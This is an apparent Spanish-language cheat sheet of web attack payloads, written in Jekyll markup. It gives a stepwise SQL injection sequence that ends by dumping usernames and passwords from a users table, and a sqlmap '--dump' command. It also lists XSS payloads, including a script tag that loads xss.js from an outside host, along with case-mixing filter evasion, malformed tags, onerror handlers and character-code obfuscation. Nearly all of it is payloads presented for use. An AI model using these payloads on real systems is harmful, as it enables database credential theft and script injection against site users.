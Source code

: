 {% endhighlight %}      

**Luego de encontrar un sitio vulnerable a una inyeccion SQL** 

{% highlight sql %}
union select 1,2-- -
union select 1,@@version
union select all 1,database()
union select all 1,table_schema from information_schema.tables 
union select all 1,table_name from information_schema.tables where table_schema='sysadmin' 
union select all 1,column_name from information_schema.columns where table_name='users' 
union select 1,(select group_concat(username,password) from sysadmin.users) 
{% endhighlight %}        


*Uso de SQLMAP*

{% highlight markdown %}
sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump
{% endhighlight %}    

## XSS Injections  

Prueba de XSS básica sin filtro de evasión  
{% highlight html %}  
<SCRIPT SRC=http://192.168.1.5/xss.js></SCRIPT>   
{% endhighlight %}    

Usando la etiqueta IMG con la directiva de JavaScript  
{% highlight html %}  
<img SRC="javascript:alert('Hacked By Gerh');">    
{% endhighlight %}    
  
Evadiendo filtros anti XSS haciendo uso de minusculas y mayusculas    
{% highlight html %}  
<img SRC="JaVaScRiPt:alert('XSS')">  
{% endhighlight %}    

Etiquetas IMG mal formadas  

{% highlight html %}  
<img """><SCRIPT>alert("XSS")</SCRIPT>">  
{% endhighlight %}    

Haciendo uso del parametro **onerror**  

{% highlight html %}  
<img SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>  
{% endhighlight %}    

Haciendo uso de representación hexadecimal  

{% highlight html %}    
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 72, 97, 99, 107, 101, 100, 32, 66, 121, 32, 71, 101, 114, 104, 34, 41))</script>
{% endhighlight %}     
